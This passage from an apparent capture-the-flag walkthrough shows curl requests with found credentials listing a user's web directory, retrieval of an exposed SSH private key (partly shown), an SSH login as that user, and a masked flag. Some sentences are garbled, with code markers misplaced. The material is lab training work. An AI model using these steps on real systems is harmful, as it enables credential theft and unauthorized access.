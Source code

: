 
我可以从文件中添加信誉，它们可以正常工作：`.htpasswd`

    $ curl -s http://127.0.0.1:3001/~r.michaels/ -u webapi_user:iamthebest
    <!DOCTYPE html>
    <html><head><meta charset="utf-8"/>
    <style type="text/css">
    table {
            border-top: 1px solid black;
            border-bottom: 1px solid black;
    }
    th { background: aquamarine; }
    tr:nth-child(even) { background: lavender; }
    </style>
    <title>Index of ~r.michaels/</title></head>
    <body><h1>Index of ~r.michaels/</h1>
    <table cols=3>
    <thead>
    <tr><th>Name<th>Last modified<th align=right>Size
    <tbody>
    <tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
    <tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
    </table>
    </body></html>
    

Directory listing is enabled ( in the command line), and this shows a single file, . One more returns the private key:`-X``id_rsa``curl`

    $ curl -s http://127.0.0.1:3001/~r.michaels/id_rsa -u webapi_user:iamthebest
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAvXxJBbm4VKcT2HABKV2Kzh9GcatzEJRyvv4AAalt349ncfDkMfFB
    ...[snip]...
    

A note - This is not reading the private key from the users directory. For some reason, the user must have put their private key intentionally in their directory. Perhaps they figured since it’s only on localhost it was less at risk there. Then again, it’s not clear what use it provides the user there either.`~/.ssh``~/public_html`

### Shell via SSH

With a copy of this key, I can get a shell as r.michaels:

    oxdf@parrot$ ssh -i ~/keys/luanne-r.michaels r.michaels@10.10.10.218
    Last login: Fri Sep 18 07:06:51 2020
    NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020
    
    Welcome to NetBSD!
    
    luanne$
    

And grab :`user.txt`

    luanne$ cat user.txt
    ea5f0ce6************************
    